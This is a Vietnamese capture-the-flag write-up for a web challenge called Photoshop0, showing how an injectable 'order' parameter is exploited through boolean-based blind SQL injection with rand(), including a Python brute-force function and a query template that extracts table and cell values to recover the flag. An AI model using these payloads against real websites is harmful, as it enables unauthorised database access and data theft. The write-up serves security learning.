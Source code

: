 Chúng ta truy cập vào trang http://photoshop0.scoreboard.ns01.info/ và có giao diện:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/Photoshop0/home.PNG)

Lướt qua 1 số link và test thử, ta thấy ở link All pictures, trường order bị lỗi sqli. Ví dụ như ta cho order=1 và order=2 thay vì order=id, thứ tự của các bức ảnh được hiển thị sẽ bị thay đổi. 

Thú vị hơn: nếu chúng ta cho order=rand(true) và order=rand(false) thứ tự sẽ thay đổi, với rand(false) cho kết quả thứ tự giống với order=id (cthulhu.png đứng sau hacker.png trong source code), dẫn tới ý tưởng sử dụng được boolean, và từ đó dùng blind sqli để bruteforce giá trị mong muốn.

Ví dụ chúng ta có thể viết 1 hàm như sau để scan giá trị độ dài của bảng information_schema.tables:

```python

def scan_length(url):
        query = '?order=rand((select count(*) from information_schema.tables)='
        for i in range(1,1000):
                newquery = query + str(i) + ')'
                response = requests.get(url+newquery)
                try:
                        if response.text.index('cthulhu.png') < response.text.index('hacker.png'):
                                print i
                                break
                except:
                                break

```                          

Và để tìm giá trị 1 ô nào đó, chúng ta dùng:
?order=rand((select ascii(substring(''column'',x,1)) from ''table'' limit 1)=y
trong đó:
	''column'' là tên cột
	x là chữ cái thứ bao nhiêu của cell đó
	''table'' là tên bảng
	y là giá trị bruteforce ascii của chữ cái đó

Chỉnh sửa code để scan các giá trị quan trọng, chúng ta có 1 số thông số:

64 tables
615 columns

TABLE:
users
pictures
categories
flag

COLUMN:
FLAG

Vậy là chúng ta có các giá trị bảng và cột cần tấn công ở đây là flag và FLAG. Sau khi scan chúng ta có flag:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/Photoshop0/flag.PNG)

flag: Flag{0rder_Sql1}